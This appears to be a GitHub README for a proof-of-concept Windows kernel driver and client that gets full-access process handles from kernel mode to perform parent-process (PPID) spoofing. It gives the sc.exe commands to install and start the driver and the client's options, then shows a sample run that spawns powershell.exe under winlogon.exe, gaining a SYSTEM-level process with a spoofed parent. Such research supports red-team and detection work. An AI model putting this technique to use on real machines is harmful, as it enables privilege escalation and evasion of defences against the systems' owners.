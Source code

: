 # GetProcHandle

PoCs to get full access process handle from kernelmode.

## Installation

```
PS C:\> sc.exe create GetProcHandle type= kernel binpath= C:\Dev\GetProcHandleDrv_x64.sys
PS C:\> sc.exe start GetProcHandle
```

## Client Program Usage

Client program performs PPID Spoofing with the kernel driver.

```
PS C:\Dev> .\GetProcHandleClient.exe -h

GetProcHandleClient - Client for GetProcHandleDrv.

Usage: GetProcHandleClient.exe [Options]

        -h, --help    : Displays this help message.
        -c, --command : Specifies command to execute. Default is "cmd.exe".
        -p, --pid     : Specifies PID of parent process.

[!] -p option is required.
```

Specifies PID for PPID Spoofing with `-p` option.
Command to execute can be specified with `-c` option (default is "cmd.exe"):

```
PS C:\Dev> .\GetProcHandleClient.exe -p 696 -c powershell.exe

[>] Sending a query to \??\GetProcHandle.
[+] Got a handle to \??\GetProcHandle (Handle = 0x2D0)
[+] Got a handle to the target process (Handle = 0x2D4).
[>] Trying to create child process from the handle.
    [*] Process ID   : 696
    [*] Process Name : winlogon.exe
[+] Got a new process.
    [*] Process ID : 3408
    [*] Thread ID  : 6564
[*] Done.
```

![](./figures/GetProcHandle.png)